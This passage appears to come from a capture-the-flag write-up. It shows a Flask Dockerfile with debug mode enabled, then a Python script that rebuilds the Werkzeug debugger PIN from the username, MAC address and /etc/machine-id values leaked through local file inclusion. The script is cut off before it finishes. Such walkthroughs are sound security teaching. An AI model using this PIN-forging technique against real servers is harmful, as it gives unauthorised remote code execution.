 ```Dockerfile
# Use an official Python runtime as a parent image
FROM python:3.11-slim
# Set the working directory in the container
WORKDIR /usr/src/app
# Copy the requirements file into the container
COPY requirements.txt ./
# Install any necessary dependencies
RUN pip install --no-cache-dir -r requirements.txt
# Create a new user and group with a secure name
RUN useradd -m very_secure_username
# Change ownership of the working directory to the newly created user
RUN chown -R very_secure_username:very_secure_username /usr/src/app
# Switch to the new user
USER very_secure_username
# Copy the application code into the container
COPY . /usr/src/app
# Set environment variables
ENV FLASK_APP=app.py
ENV FLASK_ENV=development
ENV FLASK_DEBUG=1
# Expose the port the app runs on
EXPOSE 5000
# Command to run the application
CMD ["flask", "run", "--host=0.0.0.0"]
```
From the dockerfile, we see that `FLASK_DEBUG` is enabled, meaning the `/console` endpoint is exposed. Given both LFI and debug mode, we are able to generate the [debugger pin](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug) and gain RCE. I had also tried to automatically leak the pin using https://github.com/Ruulian/wconsole_extractor but did not succeed(Perhaps my extractor code was broken).
After gaining all the information required, we can generate  our debug pin
```python
import hashlib  
from itertools import chain  
probably_public_bits = [  
    'very_secure_username',  # username  
    'flask.app',  # modname  
    'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))  
    '/usr/local/lib/python3.11/site-packages/flask/app.py'  # getattr(mod, '__file__', None),  
]  
  
private_bits = [  
    str(0x921784229705),  # str(uuid.getnode()),  /sys/class/net/ens33/address  
    '90eca5f1-105b-434e-ad02-135111eb1526'  # get_machine_id(), /etc/machine-id  
]  
  
# h = hashlib.md5()  # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0  
h = hashlib.sha1()  
for bit in chain(probably_public_bits, private_bits):  
    if not bit:  
        continue  
    if isinstance(bit, str):  
        bit = bit.encode('utf-8')  
    h.update(bit)  
h.update(b'cookiesalt')  
# h.update(b'shittysalt')  
  
cookie_name = '__wzd' + h.hexdigest()[:20]  
  
num = None  
if num is None:  
    h.update(b'pinsalt')  
```